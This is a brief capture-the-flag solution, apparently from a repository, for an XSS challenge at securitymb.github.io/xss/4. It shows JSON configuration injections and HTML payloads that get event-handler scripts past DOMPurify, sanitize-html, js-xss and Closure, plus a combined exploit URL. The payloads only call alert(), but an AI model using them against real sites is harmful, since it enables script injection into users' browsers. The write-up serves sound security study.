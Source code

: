 # https://securitymb.github.io/xss/4/

Answer: https://securitymb.github.io/xss/4/?json=%7B%22innerText%22%3A%22%3Csvg+onload%3Dalert%28%29%3E%22%2C%22ALLOWED_ATTR%22%3A%5B%22onload%22%5D%2C%22*+ONERROR%22%3A1%2C%22*+SRC%22%3A1%2C%22whiteList%22%3A%7B%22svg%22%3A%5B%22onload%22%5D%7D%7D&html=%3Cimg+src+onerror%3Dalert%28%29%3E%3Csvg+onload%3Dalert%28%29%3E%3Ca%3E

## DOMPurify

```json
{"ALLOWED_ATTR":["onload"]}
```
```html
<svg onload=alert()>
```

## sanitize-html
```json
{ "innerText": "<svg onload=alert()>" }
```
```html
<a>
```
Any allowable tag works for the HTML

## js-xss

```json
{"svg":["onload"]}
```
```html
<svg onload=alert()>
```

## Closure

```json
{"* ONERROR":1,"* SRC":1}
```
```html
<img src onerror=alert()>
```

## All of them combined

```json
{"innerText":"<svg onload=alert()>","ALLOWED_ATTR":["onload"],"* ONERROR":1,"* SRC":1,"whiteList":{"svg":["onload"]}}
```
```html
<img src onerror=alert()><svg onload=alert()><a>
```


json={"innerText":"<svg onload%3Dalert()>","ALLOWED_ATTR":["onload"],"* ONERROR":1,"* SRC":1,"whiteList":{"svg":["onload"]}}&html=<img src onerror%3dalert()><svg onload%3dalert()><a>